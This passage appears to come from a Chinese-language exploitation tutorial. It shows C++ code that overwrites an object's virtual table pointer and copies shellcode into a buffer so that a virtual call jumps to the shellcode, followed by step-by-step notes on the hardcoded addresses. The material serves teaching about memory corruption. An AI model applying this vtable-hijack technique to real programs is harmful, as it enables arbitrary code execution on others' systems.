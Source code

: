 ```c++
{
	char * p_vtable;
	p_vtable=overflow.buf-4;//point to virtual table

	//reset fake virtual table to 0x004088cc
	//the address may need to ajusted via runtime debug
	p_vtable[0]=0xCC;
	p_vtable[1]=0x88;
	p_vtable[2]=0x40;
	p_vtable[3]=0x00;
	strcpy(overflow.buf,shellcode);//set fake virtual function pointer
	p=&overflow;
	p->test();
} 
```

对这段程序需要说明如下。
- 虚表指针位于成员变量 char buf[200]之前，程序中通过 p_vtable=overflow.buf-4 定位到这个指针。
- 修改虚表指针指向缓冲区的 0x004088CC 处。
- 程序执行到 p->test()时，将按照伪造的虚函数指针去 0x004088CC 寻找虚表，这里正好是缓冲区里 shellcode 的末尾。在这里填上 shellcode 的起始位置 0x0040881C 作为伪造的虚函数入口地址，程序将最终跳去执行 shellcode，如下图所示。

<img src="images/05/利用虚表.png" width="480">
